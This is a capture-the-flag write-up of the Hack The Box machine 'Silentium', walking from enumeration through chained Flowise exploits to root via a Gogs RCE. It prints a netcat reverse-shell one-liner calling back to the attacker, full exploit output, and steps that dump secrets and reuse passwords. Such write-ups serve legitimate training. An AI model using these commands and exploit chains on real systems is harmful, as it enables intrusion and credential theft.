





# Silentium - Easy

Target IP: **10.129.245.103**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.245.103 -v```

Output shows standard port 22 for ssh and port 80 running Nginx 1.24.0.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://silentium.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 redirects us to ```http://silentium.htb```. Let's add it to our hosts file and navigate.

We are greeted with this home page. It's a static page with no directly exploitable functionalities.


Let's enumerate further.

Directory enumeration gets us one hit, ```/assets```, but we are forbidden to view it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-va5r3ubjdl]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://silentium.htb/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://silentium.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 8ms]
:: Progress: [87651/87651] :: Job [1/1] :: 2564 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
```

We get something interesting from subdomain enumeration. ```staging``` indicates to me that it's some sort of pre-production, testing environment.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-va5r3ubjdl]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://silentium.htb -H "Host: FUZZ.silentium.htb" -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://silentium.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.silentium.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

staging                 [Status: 200, Size: 3142, Words: 789, Lines: 70, Duration: 28ms]
:: Progress: [4989/4989] :: Job [1/1] :: 5263 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Let's add this to our hosts file and navigate.

We are shown in a log in page for some sort of application called Flowise.



We don't have any credentials or information to proceed from here, so let's enumerate directories on this subdomain.

Out of curiosity, I browsed to ```/api```, and it seems like it exists.



Looking online, we can retrieve the version of Flowise by navigating to ```/api/v1/version```.

This works, and we now know that this is version 3.0.5.



Let's look for publicly disclosed vulnerabilities. This version is vulnerable to CVE-2025-58434 (Account Takeover/Authentication Bypass) and CVE-2025-59528 (RCE). I found a [PoC](https://github.com/kartik2005221/CVE-2025-58434-AND-59528-POC) that chains these two vulnerabilities together. Let's try it.

There is a slight issue, which is that we need a valid email address that is associated with a user account to exploit this. Back in the home page, there were some names listed on the leadership section.

The fact that Ben only has his first name listed raises my eyebrows. Perhaps ```ben@silentium.htb``` is a valid address? We can also try ```admin@silentium.htb``` or ```root@silentium.htb```.


Our guess was correct, the exploit works for ```ben@silentium.htb```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-va5r3ubjdl]─[~/CVE-2025-58434-AND-59528-POC]
└──╼ [★]$ python3 main.py --chain   -u http://staging.silentium.htb   -e ben@silentium.htb   --lhost 10.10.15.194 --lport 4444


  ███████╗██╗      ██████╗ ██╗    ██╗██╗███████╗███████╗
  ██╔════╝██║     ██╔═══██╗██║    ██║██║██╔════╝██╔════╝
  █████╗  ██║     ██║   ██║██║ █╗ ██║██║███████╗█████╗
  ██╔══╝  ██║     ██║   ██║██║███╗██║██║╚════██║██╔══╝
  ██║     ███████╗╚██████╔╝╚███╔███╔╝██║███████║███████╗
  ╚═╝     ╚══════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝╚══════╝╚══════╝

  ════════════════════════════════════════════════════════════════════
  CVE-2025-58434 │ Account Takeover via Token Disclosure │ CVSS 9.8 Critical
  CVE-2025-59528 │ Authenticated RCE via CustomMCP Node  │ CVSS Critical    
  ════════════════════════════════════════════════════════════════════
    ⚠  FOR EDUCATIONAL / AUTHORIZED SECURITY TESTING ONLY  ⚠
  ════════════════════════════════════════════════════════════════════

  ════════════════════════════════════════════════════════════════════
    FULL CHAIN MODE  │  CVE-2025-58434 → CVE-2025-59528
  ════════════════════════════════════════════════════════════════════

  [Step 1] [CVE-2025-58434] Requesting forgot-password token ...
  [*] Endpoint : http://staging.silentium.htb/api/v1/account/forgot-password
  [*] Email    : ben@silentium.htb
  [*] HTTP 201

  ────────────────────────────────────────────────────────────────────
    LEAKED ACCOUNT DATA
  ────────────────────────────────────────────────────────────────────
  User ID       : e26c9d6c-678c-4c10-9e36-01813e8fea73
  Name          : admin
  Email         : ben@silentium.htb
  Credential    : $2a$05$6o1ngPjXiRj.EbTK33PhyuzNBn2CLo8.b0lyys3Uht9Bfuos2pWhG
  Status        : active
  tempToken     : KPYyw5JhNcsPNFtUs1PFWk2VrCKJbRH8kqvctPATcWwy6KKRIDJe7MzneNRWxmEB
  tokenExpiry   : 2026-10-06T16:45:38.039Z
  ────────────────────────────────────────────────────────────────────
  [+] tempToken  : KPYyw5JhNcsPNFtUs1PFWk2VrCKJbRH8kqvctPATcWwy6KKRIDJe7MzneNRWxmEB
  [+] Expiry     : 2026-10-06T16:45:38.039Z
  [!] VULNERABLE — token disclosed without authentication!

  [Step 2] [CVE-2025-58434] Resetting password → Flowise@Pwn3d2025!
  [*] Endpoint     : http://staging.silentium.htb/api/v1/account/reset-password
  [*] New password : Flowise@Pwn3d2025!
  [*] HTTP 201
  [+] Password reset SUCCESSFUL (tempToken cleared)
  [+] Account takeover complete  →  ben@silentium.htb / Flowise@Pwn3d2025!

  [Step 3] [Auth] Logging in to extract session cookies ...
  [*] Endpoint : http://staging.silentium.htb/api/v1/auth/login
  [*] Email    : ben@silentium.htb
  [*] HTTP 200

  ────────────────────────────────────────────────────────────────────
    EXTRACTED SESSION COOKIES
  ────────────────────────────────────────────────────────────────────
  token          : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImUyNmM5ZDZjLTY3OGMtNGMxMC0...
  refreshToken   : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImUyNmM5ZDZjLTY3OGMtNGMxMC0...
  connect_sid    : s%3AMekHoYM-SuliAtoODVtrLtP59QRLuh-P.WFo6e6b3FuXWn8hlAoEPLeVHJiYMmzaToed...
  ────────────────────────────────────────────────────────────────────
  [+] Session cookies obtained ✓

  [Step 4] [CVE-2025-59528] Executing RCE via CustomMCP ...
  [*] Endpoint : http://staging.silentium.htb/api/v1/node-load-method/customMCP
  [*] Command  : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.194 4444 >/tmp/f
  [*] Payload  : ({x:(function(){const cp=process.mainModule.require("child_process");const b64="cm0gL3Rt...

  ────────────────────────────────────────────────────────────────────
    RCE RESULT
  ────────────────────────────────────────────────────────────────────
  Mode    : Reverse Shell
  Command : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.194 4444 >/tmp/f
  LHOST   : 10.10.15.194
  LPORT   : 4444

  [+] Reverse shell payload fired!
  [!] Waiting for connection on 10.10.15.194:4444 ...
  [!] Make sure your listener is running:  nc -lvnp 4444
  ────────────────────────────────────────────────────────────────────

  ════════════════════════════════════════════════════════════════════
    CHAIN COMPLETE
  ════════════════════════════════════════════════════════════════════
  CVE-2025-58434  ✓  ATO   → ben@silentium.htb / Flowise@Pwn3d2025!
  CVE-2025-59528  ✓  RCE   → shell connecting to 10.10.15.194:4444
  ════════════════════════════════════════════════════════════════════
```

We catch a shell on our listener, as ```root```?

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-va5r3ubjdl]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.245.103 33963
/bin/sh: can't access tty; job control turned off
/ # whoami
root
/ # id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

There is a ```node``` user, but there is no flag inside.

```
/ # ls -la /home
total 12
drwxr-xr-x    1 root     root          4096 Jul 16  2025 .
drwxr-xr-x    1 root     root          4096 Apr  8 15:14 ..
drwxr-sr-x    2 node     node          4096 Jul 16  2025 node
```

There isn't a flag in ```/root``` either.

```
~ # ls -la
total 16
drwx------    1 root     root          4096 Apr  8 09:41 .
drwxr-xr-x    1 root     root          4096 Apr  8 15:14 ..
-rw-------    1 root     root             9 Jan 29  2026 .ash_history
drwxr-xr-x    3 root     root          4096 Oct  6 16:30 .flowise
```

Checking ```ifconfig``` gives us a better idea of what's happening. There is an internal network the machine is a part of. This is probably a container.

```
/ # ifconfig
eth0      Link encap:Ethernet  HWaddr 12:52:84:69:38:96  
          inet addr:172.18.0.3  Bcast:172.18.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:168436 errors:0 dropped:0 overruns:0 frame:0
          TX packets:131915 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:15330948 (14.6 MiB)  TX bytes:113918751 (108.6 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:9536 errors:0 dropped:0 overruns:0 frame:0
          TX packets:9536 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1034355 (1010.1 KiB)  TX bytes:1034355 (1010.1 KiB)
```

Before getting to ahead of ourselves, let's enumerate this machine. Inside ```/root```, there was a hidden ```/.flowise``` directory.

Inside, we find an ```.sqlite``` file and an encryption key.

```
~/.flowise # ls
database.sqlite
encryption.key
uploads
```

Let's save this encryption key value on our attack box.

```
~/.flowise # file encryption.key
encryption.key: ASCII text, with no line terminators
~/.flowise # cat encryption.key
hdsVqdkOcLN4fwdpvMPtbAi2++qi8yFc
```

```sqlite3``` is installed on the remote machine. Let's open the file with it.

There's a few interesting tables here, notably ```apikey```, ```credential```, ```user```, and ```workspace_user```.

```
~/.flowise # sqlite3 database.sqlite
.databases
main: /root/.flowise/database.sqlite r/w
.tables
apikey                     lead                     
assistant                  login_activity           
chat_flow                  login_method             
chat_message               login_sessions           
chat_message_feedback      migrations               
credential                 organization             
custom_template            organization_user        
dataset                    role                     
dataset_row                tool                     
document_store             upsert_history           
document_store_file_chunk  user                     
evaluation                 variable                 
evaluation_run             workspace                
evaluator                  workspace_shared         
execution                  workspace_user
```

We see Ben in ```users```.

```
SELECT * FROM user;
id                                    name   email              credential                                                    tempToken  tokenExpiry              status  createdDate          updatedDate          createdBy                             updatedBy                           
------------------------------------  -----  -----------------  ------------------------------------------------------------  ---------  -----------------------  ------  -------------------  -------------------  ------------------------------------  ------------------------------------
e26c9d6c-678c-4c10-9e36-01813e8fea73  admin  ben@silentium.htb  $2a$05$1YYgthWzwC7uuNncwVPw4.mFFapD6JYsKuFHpJgp6CBPa8E65Pz4u             2026-10-06 17:03:48.140  active  2026-01-29 20:14:57  2026-10-06 16:48:48  e26c9d6c-678c-4c10-9e36-01813e8fea73  e26c9d6c-678c-4c10-9e36-01813e8fea73
```

But there doesn't get us anywhere, we reset the password when getting RCE. The other tables hold some data about api keys, but we already have access. The only user account is Ben.

Returning to do more basic enumeration, checking the environment variables gives us cleartext passwords. One is the original password for Flowise we overwrote, and the other is for SMTP, which indicates that it is Ben's password for his email.

```
~/.flowise # env
FLOWISE_PASSWORD=F1l3_d0ck3r
ALLOW_UNAUTHORIZED_CERTS=true
NODE_VERSION=20.19.4
HOSTNAME=c78c3cceb7ba
YARN_VERSION=1.22.22
SMTP_PORT=1025
SHLVL=3
PORT=3000
HOME=/root
OLDPWD=/tmp
SENDER_EMAIL=ben@silentium.htb
PUPPETEER_EXECUTABLE_PATH=/usr/bin/chromium-browser
JWT_ISSUER=ISSUER
JWT_AUTH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
LLM_PROVIDER=nvidia-nim
SMTP_USERNAME=test
SMTP_SECURE=false
JWT_REFRESH_TOKEN_EXPIRY_IN_MINUTES=43200
FLOWISE_USERNAME=ben
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DATABASE_PATH=/root/.flowise
JWT_TOKEN_EXPIRY_IN_MINUTES=360
JWT_AUDIENCE=AUDIENCE
SECRETKEY_PATH=/root/.flowise
PWD=/root/.flowise
SMTP_PASSWORD=r04D!!_R4ge
NVIDIA_NIM_LLM_MODE=managed
SMTP_HOST=mailhog
JWT_REFRESH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
SMTP_USER=test
```

We can try using ```r04D!!_R4ge``` to log into the actual machine as ```ben```.

It works!

```
ben@silentium:~$ whoami
ben
```

We can proceed to get the user flag from here.

## Root Flag

We can't run ```sudo``` as ```ben```, and there doesn't seem to be any interesting SUID binaries as well.

```
ben@silentium:~$ sudo -l
[sudo] password for ben: 
Sorry, user ben may not run sudo on silentium.
ben@silentium:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/fusermount3
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/mount
/usr/bin/su
/usr/bin/chsh
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
```

Running linpeas gives us a new subdomain.

```
lrwxrwxrwx 1 root root 42 Jan 29  2026 /etc/nginx/sites-enabled/staging-v2-code -> /etc/nginx/sites-available/staging-v2-code
server {
    listen 80;
    server_name staging-v2-code.dev.silentium.htb;
    location / {
        proxy_pass http://127.0.0.1:3001;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

Let's add this to our hosts file and navigate to it.

This is an installation of Gogs.



There is also a ```/gogs``` directory in ```/opt```.

```
ben@silentium:/opt$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Apr  8 18:30 .
drwxr-xr-x 22 root root 4096 Apr  8 09:41 ..
drwx--x--x  4 root root 4096 Apr  8 09:41 containerd
drwxr-xr-x  6 root root 4096 Apr  8 09:41 gogs
```

The actual binary is inside, and we can query the version.

```
ben@silentium:/opt/gogs/gogs$ ./gogs --version
Gogs version 0.13.3
```

Running pspy on the machine, we can also see that the binary is being ran by ```root```.

```
2026/10/06 17:19:39 CMD: UID=0     PID=1493   | /opt/gogs/gogs/gogs web 
```

Inside the directory, there is also an ```app.ini``` file that tells us the ```root``` user is running the service.

```
ben@silentium:/opt/gogs/gogs/custom/conf$ cat app.ini
BRAND_NAME = Gogs
RUN_USER   = root
RUN_MODE   = prod

[server]
HTTP_ADDR        = 127.0.0.1
HTTP_PORT        = 3001
DOMAIN           = staging-v2-code.dev.silentium.htb
ROOT_URL         = http://staging-v2-code.dev.silentium.htb/
OFFLINE_MODE     = false
EXTERNAL_URL     = http://staging-v2-code.dev.silentium.htb:3001/
DISABLE_SSH      = false
SSH_PORT         = 22
START_SSH_SERVER = false

[database]
TYPE     = sqlite3
PATH     = /opt/gogs/data/gogs.db
HOST     = 127.0.0.1:5432
NAME     = gogs
SCHEMA   = public
USER     = gogs
PASSWORD = 
SSL_MODE = disable

[repository]
ROOT_PATH      = /root/gogs-repositories
DEFAULT_BRANCH = master
ROOT           = /root/gogs-repositories

[session]
PROVIDER = file

[log]
MODE      = file
LEVEL     = Info
ROOT_PATH = /opt/gogs/log

[security]
INSTALL_LOCK = true
SECRET_KEY   = sdsrcxSm0iC7wDO

[email]
ENABLED = false

[auth]
REQUIRE_EMAIL_CONFIRMATION  = false
DISABLE_REGISTRATION        = false
ENABLE_REGISTRATION_CAPTCHA = true
REQUIRE_SIGNIN_VIEW         = false

[user]
ENABLE_EMAIL_NOTIFICATION = false

[picture]
DISABLE_GRAVATAR        = false
ENABLE_FEDERATED_AVATAR = false
```

Let's look for publicly disclosed vulnerabilities for Gogs version 0.13.3. This version is vulnerable to CVE-2025-8110, an RCE vulnerability.

Let's try this [PoC](https://github.com/zAbuQasem/gogs-CVE-2025-8110).

We can first register for an account.



Running the script, this will create a cron job that will initiate a connection back to our listener.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-va5r3ubjdl]─[~]
└──╼ [★]$ python3 exploit.py http://staging-v2-code.dev.silentium.htb -u 44y -p Password --rce-cron --lhost 10.10.15.194 --lport 4444
```

After waiting a bit, we catch a shell as ```root```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-va5r3ubjdl]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.245.103 41330
bash: cannot set terminal process group (59430): Inappropriate ioctl for device
bash: no job control in this shell
root@silentium:~# whoami
whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
